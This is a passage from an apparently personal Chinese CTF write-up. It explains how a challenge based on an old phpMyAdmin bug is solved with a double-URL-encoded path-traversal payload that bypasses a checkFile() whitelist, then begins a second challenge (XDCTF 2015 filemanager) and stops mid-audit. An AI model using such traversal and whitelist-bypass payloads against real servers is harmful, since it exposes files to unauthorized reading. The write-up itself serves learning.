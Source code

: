 这道题来自于phpMyadmin之前的一个漏洞[https://www.freebuf.com/vuls/176064.html](https://www.freebuf.com/vuls/176064.html)

`checkFile()`中的三个验证，只要有一个符合就能返回true。

这里第三个检验是存在漏洞的

```php
            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
```

这里给出的payload为：

```php
file=hint.php%253f/../../../../../../../../ffffllllaaaagggg
```

构造这样的payload是为了绕过白名单过滤并且使得文件包含有效。

在第三个检验时，`%253f`转`%3f`转`?`

在文件包含时，包含的文件如下:

```php
hint.php%3f/../../../../../../../../ffffllllaaaagggg
```

如果这里的文件名仅仅是

```php
hint.php?/../../../../../../../../ffffllllaaaagggg
```

那么这里的`/../../../../../../../../ffffllllaaaagggg`就被作为传入`hint.php`的参数，无法正常进行目录穿越。



## 0x06

[XDCTF 2015]filemanager

访问www.tar.gz下载源码

审计源码，首先上传一个文件，看到upload.php

![](/home/cookie/Pictures/blogs/CTF杂谈随笔/1.png)

在文件未上传的情况下，上传文件，将会在数据库中插入文件名和文件后缀。



接着看到rename.php

![](/home/cookie/Pictures/blogs/CTF杂谈随笔/2.png)
